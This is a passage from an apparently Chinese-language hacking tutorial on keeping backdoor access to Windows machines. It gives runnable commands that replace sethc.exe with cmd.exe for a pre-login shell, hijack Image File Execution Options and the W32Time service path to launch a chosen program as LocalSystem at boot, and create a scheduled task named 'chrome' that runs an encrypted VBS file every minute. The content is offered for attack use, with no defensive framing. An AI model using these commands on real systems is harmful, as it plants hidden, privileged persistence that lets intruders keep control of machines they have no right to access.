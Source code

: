 这个是比较老的方式了，这里简单讲一下，在 windows 中有一些辅助功能，能在用户未登录系统之前可以通过组合键来启动它，类似的辅助功能有：

```
Copy`C:\Windows\System32\sethc.exe     粘滞键，启动快捷键：按五次shift键
C:\Windows\System32\utilman.exe   设置中心，启动快捷键：Windows+U键` 
```

```
Copy`cd c:\Windows\System32
move sethc.exe sethc.exe.bak
copy cmd.exe sethc.exe` 
```

#### 9.2 映像劫持

在低版本的windows中，我们可以直接把 setch.exe 替换成我们的后门程序，但是在高版本的 windows 版本中替换的文件受到了系统的保护，所以这里我们要使用另外一个知识点：映像劫持。

windows 系统上每个服务的信息都存储在注册表中， ImagePath 注册表项通常包含驱动程序映像文件的路径。使用任意可执行文件劫持此密钥将使有效负载在服务启动期间运行，而这种劫持就称为映像劫持

具体操作方法如下：

在注册表下添加一个项 sethc.exe ，然后在 sethc.exe 这个项中添加 debugger 键，键值为我们恶意程序的路径：

```
Copy`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Option 

REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"` 
```

[![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200418203351663-212784345.png)](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200418203351663-212784345.png)

对于劫持其他服务，看以下例子，劫持W32Time服务：

```
Copy`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time" /v ImagePath /t REG_SZ /d "C:\321321.exe" /f
/f参数很重要，强制执行` 
```

[![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200418203837265-493326355.png)](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200418203837265-493326355.png)

由于此服务并非自启动服务，想要此服务开机自启并为高权限，我们仍需使用命令：

```
Copy`sc config w32time start= "auto" obj= "LocalSystem"` 
```

### 0x10 定时任务

windows下定时任务的命令有两个分别是：at 和 schtasks，他们两者主要区别是 at 命令在 win7、08 等高版本的 windows 中是不能将任务在前台执行的，也就是只会打开一个后台进程，而 schtasks 是将定时的任务在前台执行

```
Copy`schtasks /create /sc minute /mo 1 /tn "chrome" /tr wscript.exe C:\Users\\AppData\Local\Temp\13442980_crypted.vbs` 
```
